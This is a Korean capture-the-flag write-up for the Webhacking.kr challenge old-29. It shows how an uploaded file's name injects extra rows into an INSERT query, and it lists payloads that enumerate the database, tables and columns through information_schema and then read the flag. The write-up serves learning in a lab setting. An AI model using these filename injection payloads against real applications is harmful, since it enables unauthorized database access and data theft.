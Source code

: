 ```yaml
---
title: ["[Webhacking.kr] old-29 (sqli - 40)"]
date: 2024-11-01 09:00:00 +0900
categories: [writeup, webhacking.kr]
tags: [web, sqli, php]
---
```

## Intro
![문제 설명](assets/img/writeup/webhacking.kr/old-29/recon.png)

업로드한 파일의 리스트를 출력해준다.  
ip를 기준으로 결과 table이 출력되는 것을 보아 쿼리가 다음과 같을 것이다.  
```mysql
SELECT time, ip, file FROM chall29 WHERE ip='{$REMOTE_ADDR}';
```  


그리고 파일을 업로드할 때는 다음과 같은 쿼리가 실행될 것이다.  
```mysql
INSERT into chall29 values(time, ip, file)
```  


## Analysis

```mysql
INSERT into chall29 values(time, ip, file)
```  
만약 데이터를 insert하는 쿼리가 다음과 같다면,  
file 이름에 sql injection을 다음과 같이 트리거할 수 있다.  

```mysql
INSERT into chall29 values(time, ip, file1), (time, ip, file2)
```  

하지만 서버에서 upload error를 출력했다.  

이는 쿼리문이 예상대로 생기지 않았다는 의미이다.  
`no`와 같은 컬럼이 추가로 있을 수도 있지만,  
블랙박스 SQLi에서 새로운 컬럼을 추가하진 않았을 것이다.  

데이터를 insert하는 순서가 달라질 수 있다.  

```mysql
INSERT into chall29 values(file, time, ip)
```  
여러 시도 끝에 위와 같은 순서로 이루어져있음을 알 수 있었다.  

file 이름을 `test1',1732520229,'45.67.97.61'),'test2` 이렇게 설정하면 인젝션이 성공하게 된다.  

다른 테이블에 있는 flag를 읽어오기 위해, DB명과 테이블명 컬럼명을 알아내보자.  

```
filename="test1',1732520229,'45.67.97.61'),(database(),1732520229,'45.67.97.61'),('test3" 
// chall29

filename="test1',1732520229,'45.67.97.59'),((select table_name from information_schema.tables where table_schema='chall29' limit 0,1),1732520229,'45.67.97.59'),('test3"
// files

filename="test1',1732520229,'45.67.97.59'),((select table_name from information_schema.tables where table_schema='chall29' limit 1,2),1732520229,'45.67.97.59'),('test3"
// flag_congratz

filename="test1',1732520229,'45.67.97.59'),((select table_name from information_schema.tables where table_schema='chall29' limit 2,3),1732520229,'45.67.97.59'),('test3"
// upload error!

filename="test1',1732520229,'45.67.97.59'),((select column_name from information_schema.columns where table_name='flag_congratz' limit 0,1),1732520229,'45.67.97.59'),('test3"
// flag

filename="test1',1732520229,'45.67.97.59'),((select column_name from information_schema.columns where table_name='flag_congratz' limit 1,2),1732520229,'45.67.97.59'),('test3"
// upload error!

filename="test1',1732520229,'45.67.97.59'),((select flag from flag_congratz limit 0,1),1732520229,'45.67.97.59'),('test3"
// FLAG{didYouFeelConfused?_sorry:)}
```


